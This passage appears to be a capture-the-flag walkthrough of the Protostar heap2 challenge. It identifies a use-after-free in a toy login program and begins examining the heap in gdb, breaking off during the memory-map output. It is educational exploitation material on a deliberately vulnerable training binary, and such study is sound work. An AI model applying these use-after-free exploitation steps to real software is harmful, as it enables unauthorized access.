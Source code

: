 ```c
        printf("you have logged in already!\n");
      } else {
        printf("please enter your password\n");
      }
    }
  }
}
```

### Analysis

The program is a login service that reads input from `stdin`. Our goal is to make it print "you have logged in already!"

We can use the following commands: `auth`, `reset`, `service`, and `login`.

```shell
user@protostar:/opt/protostar/bin$ ./heap2
[ auth = (nil), service = (nil) ]
auth AAAA
[ auth = 0x804c008, service = (nil) ]
reset
[ auth = 0x804c008, service = (nil) ]
service BBBB
[ auth = 0x804c008, service = 0x804c008 ]
login
please enter your password
[ auth = 0x804c008, service = 0x804c008 ]
```

When we run `reset`, it frees the allocated memory, but the `auth` pointer still holds the same address. When `login` runs, it accesses this freed memory with `auth->auth`.

The `service` command uses **strdup()**, which allocates new memory using `malloc()`. According to the `man` page:

>The strdup() function returns a pointer to a new string which is a duplicate of the string s. Memory for the new string is obtained with malloc(3), and can be freed with free(3).

This bug is a ***Use-After-Free (UAF)*** vulnerability. If we can overwrite `auth->auth` with value other than zero, we can exploit this issue.

Let's see how the heap looks like in `gdb`. As usual, I will use the Intel syntax, turn pagination off, and find the base address of the heap by using `info proc map`.

```shell
user@protostar:/opt/protostar/bin$ gdb ./heap2
(gdb) set disassembly-flavor intel
(gdb) set pagination off
(gdb) r
Starting program: /opt/protostar/bin/heap2
[ auth = (nil), service = (nil) ]
auth AAAA
[ auth = 0x804c008, service = (nil) ]
^C
Program received signal SIGINT, Interrupt.
0xb7f53c1e in __read_nocancel () at ../sysdeps/unix/syscall-template.S:82
82      ../sysdeps/unix/syscall-template.S: No such file or directory.
        in ../sysdeps/unix/syscall-template.S
Current language:  auto
The current source language is "auto; currently asm".
(gdb) info proc map
process 1705
cmdline = '/opt/protostar/bin/heap2'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/heap2'
Mapped address spaces:
```